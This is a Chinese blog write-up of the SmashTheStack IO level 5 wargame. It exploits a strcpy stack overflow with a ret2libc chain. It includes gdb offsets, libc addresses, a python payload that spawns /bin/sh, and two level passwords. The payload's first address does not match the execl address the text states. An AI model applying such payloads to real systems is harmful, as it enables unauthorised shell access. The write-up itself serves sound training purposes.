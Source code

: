 title: SmashTheStack IO level5
date: 2015-05-30 15:20:56
tags: 
- 缓冲区溢出
- Smash the Stack
categories: Smash the Stack
---
密码：LOoCy5PbKi63qXTh
<!-- more -->
# I、源代码
## ① 源代码
```
#include <stdio.h>
#include <string.h>

int main(int argc, char **argv) {

    char buf[128];

    if(argc < 2) return 1;

    strcpy(buf, argv[1]);

    printf("%s\n", buf);

    return 0;
}
```
## ② 执行结果
![](https://ww4.sinaimg.cn/large/005CA6ZCjw1esmcb5wlznj30k201lq34.jpg)
# II、相关知识
 - 最基本的缓冲区溢出 level3就是基本缓冲区溢出例子，相信大家都了解了
 - [ret2lib](http://www.ibm.com/developerworks/cn/linux/1402_liumei_rilattack/)        原理有点长，我就不赘述了，大家可以参考我给的链接，也可以自己找原理

# III、找漏洞
## ① 思路
观察前几关的程序，需要构造输入的，最终的目的是执行execl("/bin/sh")
所以我首先想到的是，构造输入，修改main返回地址，让其指向库函数execl()起始地址，为了让execl正常返回，exit()地址入栈，然后参数"/bin/sh"入栈
栈结果如图：
![](https://ww2.sinaimg.cn/large/005CA6ZCjw1esmcbnj1jlj30oe0esac4.jpg)
## ② 引入环境变量
不存在值为"/bin/sh"的环境变量，首先引入环境变量BIN_SH（名字自拟），在同一个shell下，地址不变
![](https://ww4.sinaimg.cn/large/005CA6ZCjw1esmcczmmznj30k5021aag.jpg)
## ③ gdb调试
查看buf，ret地址,计算两者的差距
![](https://ww3.sinaimg.cn/large/005CA6ZCjw1esmcc9q14yj30k30bmgom.jpg)
![](https://ww2.sinaimg.cn/large/005CA6ZCjw1esmcci3a7vj30k309mafx.jpg)

buf：0xbffffbb0，ret：0xbffffc3c，两者相差 0x8c
因此<font color="red">输入格式：</font> "A"*0x8c + execl()起始地址 + exit()起始地址 + "/bin/sh"起始地址
## ④ 查看execl()、exit()、"/bin/sh"地址
在调试过程中可以p system     p exit 就可以查看了
环境变量BIN_SH在栈的下面，x/1000s 0xbffffbb0  可以打印出从0xbffffbb0开始的1000个字符（具体单位我也不清楚，大家自己百度），一直向下查看就可以找到BIN_SH了
![](https://ww1.sinaimg.cn/large/005CA6ZCjw1esmccofiyfj30k307mwh3.jpg)
![](https://ww3.sinaimg.cn/large/005CA6ZCgw1esmcdday4nj30k30c375r.jpg)

execl  : 0xb7f0f3f0
exit   : 0xb7e9d270
BIN_SH=/bin/sh : 0xbfffff6f
/bin/sh : 0xbfffff76

## ⑤ 校正"/bin/sh"地址
现在来验证下BIN_SH的地址是否正确
![](https://ww3.sinaimg.cn/large/005CA6ZCgw1esmcdvn3mzj30k302jmyt.jpg)
这个是调用execl()函数时，参数出错提示，说明execl地址正确
根据我的血泪史，一般函数地址这样查找都没有错，环境变量的地址一般不正确
经过我多次测试，/bin/sh : 0xbfffff70
<font color="red">PS：</font>我的校正方法
在/tmp 目录下新建一个自己的文件夹 star
进入 star 文件夹  ：cd star
想办法生成core文件，调试时，加上core文件，gdb ./level05 core -q  ，然后查看 BIN_SH 的地址
## ⑥ 获得密码
输入格式 "A"*0x8c + "0xb7f0f3f0" + "0xb7e9d270" + "0xbfffff70"

"$(python -c 'print "A"*0x8c + "\x30\x9c\xea\xb7" + "\x70\xd2\xe9\xb7" + "\x70\xff\xff\xbf" ')"
![](https://ww3.sinaimg.cn/large/005CA6ZCgw1esmce74oxcj30k203iabv.jpg)

OK！！！ 密码get：rXCikld0ex3EQsnI

